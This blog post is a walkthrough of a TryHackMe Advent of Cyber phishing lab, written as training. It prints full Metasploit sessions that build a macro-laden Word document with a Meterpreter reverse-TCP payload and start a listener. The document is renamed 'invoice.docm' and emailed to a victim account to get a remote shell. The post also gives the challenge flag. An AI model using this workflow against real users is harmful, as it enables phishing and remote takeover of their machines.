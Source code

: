 ```yaml
---
title: "The Advent of Cyber: Day 10: Phishing - He had a brain full of macros, and had shells in his soul. (TryHackMe)"
datePublished: Wed Dec 18 2024 03:27:14 GMT+0000 (Coordinated Universal Time)
cuid: cm4tc0g00000109js04cp1wrn
slug: the-advent-of-cyber-day-10-phishing-he-had-a-brain-full-of-macros-and-had-shells-in-his-soul-tryhackme
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1734492376965/54724d0e-dc7e-483e-a967-094f5677a42f.png
tags: macros, phishing, tryhackme, write-up, metasploit-framework, adventofcyber2024

---
```


In this article, we’ll cover Phishing - He had a brain full of macros and had shells in his soul writeup as the Day 2 challenge of the Advent of Cyber event challenge. It was interesting to navigate the platform and filter different events and logs based on timestamps, IP addresses, and the events, i.e., authentication, process, etc. We’re still at Wareville for SOC-mas!

First, read through the introduction to understanding concepts like Phishing and Macros as they’ll be fundamental here:  
  
**Phishing Attacks**

Security is as strong as the weakest link. Many would argue that humans are the weakest link in the security chain. Is it easier to exploit a patched system behind a firewall or to convince a user to open an “important” document? Hence, “human hacking” is usually the easiest to accomplish and falls under social engineering.

Phishing is a play on the word fishing; however, the attacker is not after seafood. Phishing works by sending a “bait” to a usually large group of target users. Furthermore, the attacker often craft their messages with a sense of urgency, prompting target users to take immediate action without thinking critically, increasing the chances of success. The purpose is to steal personal information or install malware, usually by convincing the target user to fill out a form, open a file, or click a link.

One might get an email out of nowhere claiming that they are being charged a hefty sum and that they should check the details in the attached file or URL. The attacker just needs to have their target users open the malicious file or view the malicious link. This can trigger specific actions that would give the attack control over your system.

## **Macros**

The needs of MS Office users can be vastly different, and there is no way that a default installation would cater to all of these needs. In particular, some users find themselves repeating the same tasks, such as formatting and inserting text or performing calculations. Consider the example of number-to-words conversion where a number such as “1337” needs to be expressed as “one thousand three hundred thirty-seven”. It would take hours to finish if you have hundreds of numbers to convert. Hence, there is a need for an automated solution to save time and reduce manual effort.

In computing, a macro refers to a set of programmed instructions designed to automate repetitive tasks. MS Word, among other MS Office products, supports adding macros to documents. In many cases, these macros can be a tremendous time-saving feature. However, in cyber security, these automated programs can be hijacked for malicious purposes.  
  
You’ll start the machine and open the terminal, we’ll be using Metasploit Framework a lot. We’ll use the command `msfconsole` to launch it. In this first of the challenge a Microsoft word document will be created within our directories so we’ve to be keen

```bash
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 > use exploit/multi/fileformat/office_word_macro
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/office_word_macro) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/fileformat/office_word_macro) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/fileformat/office_word_macro) > show options

Module options (exploit/multi/fileformat/office_word_macro):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CUSTOMTEMPLATE                   no        A docx file that will be used as a template to build the exploit
   FILENAME        msf.docm         yes       The Office document macro file (docm)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word on Windows


View the full module info with the info, or info -d command.

msf6 exploit(multi/fileformat/office_word_macro) > exploit

[*] Using template: /opt/metasploit-framework/embedded/framework/data/exploits/office_word_macro/template.docx
[*] Injecting payload in document comments
[*] Injecting macro and other required files in document
[*] Finalizing docm: msf.docm
[+] msf.docm stored at /root/.msf4/local/msf.docm
msf6 exploit(multi/fileformat/office_word_macro) > exit
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1734492266178/190934cb-97fa-4cd4-9c56-c4348b447ad0.png align="center")

If you open a new tab on the terminal and check **/root/.msf4/local/msf.docm you’ll find the doc. Copy the doc into a new file within the root folder (this is optional)**  
`cd ./.msf4/local   cp msf.docm /root/invoice.docm`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1734492195266/bbce6d59-f93a-4171-9335-781125ae4949.png align="center")

  
there’s a part of the walkthrough where you just read through since we can’t access the Windows machine. The important part for us to find the flag is the second section where we’re using the Metasploit framework again but this time we won’t exit the exploit before we check the Windows directory.  

```bash
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on CONNECTION_IP:8888
```

Finding the flag will be dependent on sending an email with the Microsoft Word document as an attachment. We’re given a URL to open the email together with the necessary credentials i.e. email & password together with the recipient’s email.  
  

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1734492094243/2b793ce2-6b25-4285-9a1d-831181c2fe7d.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1734492062922/d895943b-6e11-4cc1-899b-1642bcd1435c.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1734492153227/beac22f0-7adb-4c2f-be24-552e5001d1a0.png align="center")

Once you’ve sent the email, the exploit will open up the Meterpreter which will allow us to access the Windows directory and we’ll be able to find the flag.txt file and `cat flag.txt` to check its contents.

1. What is the flag value inside the `flag.txt` file that’s located on the Administrator’s desktop? `THM{PHISHING_CHRISTMAS}`
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1734491966265/97e7486f-cd91-41d9-871a-838dd22438ff.png align="center")
    
2. If you enjoyed this task, feel free to check out the [Phishing](https://tryhackme.com/module/phishing) [module.](https://tryhackme.com/module/phishing)
    

Thank you for reading through this article. You can leave a comment with your thoughts: areas to improve or other suggestions and questions if any. Till the next one, stay secure!